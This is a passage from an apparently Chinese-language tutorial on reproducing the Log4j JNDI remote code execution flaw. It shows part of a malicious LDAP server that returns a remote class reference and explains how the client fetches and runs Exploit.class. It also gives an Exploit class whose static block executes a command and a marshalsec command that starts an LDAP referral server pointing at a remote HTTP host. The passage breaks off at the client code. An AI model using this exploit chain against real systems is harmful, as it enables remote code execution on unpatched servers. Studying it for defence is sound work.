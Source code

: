                 }
            }
    
            protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws MalformedURLException, LDAPException {
                URL url = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
                System.out.println("Send LDAP reference result for " + base + " redirecting to " + url);
                e.addAttribute("javaClassName", "Calc");
                String cbString = this.codebase.toString();
                int refPos = cbString.indexOf('#');
                if (refPos > 0){
                    cbString = cbString.substring(0, refPos);
                }
                e.addAttribute("javaCodeBase", cbString);
                e.addAttribute("objectClass", "javaNamingReference");
                e.addAttribute("javaFactory", this.codebase.getRef());
                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
    
            }
        }
    }
    
    ```

2. 如果 JNDI 客户端，在 LDAP 服务中找不到对应的资源时，就会去指定的地址（如上代码中的`EXPLOIT_CLASS_URL`）请求。如果是命名引用，就会将这个文件（`Exploit.class`）下载到本地

3. 如果下载的 `.class` 文件包含无参构造函数或静态方法块，加载的时候就会自动执行，从而产生注入漏洞（注意： `Exploit` 文件放在根目录下编译，不要包含包名，否则会出现无法加载 `Exploit` 类的问题）。
    ```java
    public class Exploit {
        static {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (Exception e) {
    
            }
        }
    }
    ```

## Log4j RCE 漏洞复现

### 环境准备

- 基础开发环境
    - JDK 1.8.191 以下
- 远程代码
    - `Exploit.class` 恶意文件
    - HTTP 服务器
- LDAP 服务端
    - 本地启动。同上（需要将远程地址配置在服务端代码中）
    - 远程启动。
        可以借用 `marshalsec` 在远程服务器启动一个 LDAP 服务（远程地址作为参数配置在命令中）
        `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.xxx.xxx:80/#Exploit 7389`
- LDAP 客户端（Log4j 利用）
    ```java
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;
    